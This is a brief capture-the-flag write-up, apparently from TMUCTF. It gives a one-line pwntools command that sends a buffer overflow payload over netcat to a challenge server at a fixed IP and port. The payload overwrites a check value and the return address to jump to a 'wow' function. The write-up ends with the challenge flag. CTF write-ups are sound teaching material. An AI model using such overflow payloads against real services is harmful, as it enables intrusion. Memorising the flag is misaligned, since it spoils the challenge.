

# Challenge Description
<p align="center">
  
</p>
<br>

# Writeup
Just overwrite the address of `wow` function to the return address.  
```bash
python2.7 -c "import pwn; print 'A'*28 + pwn.p32(0xcafe) + '\n' + 'A'*136 + pwn.p32(0x00000000004012ec)" | nc 194.5.207.56 7010
```  
The flag:  
```
TMUCTF{w0w!_y0u_c0uld_f1nd_7h3_w0w!}
```
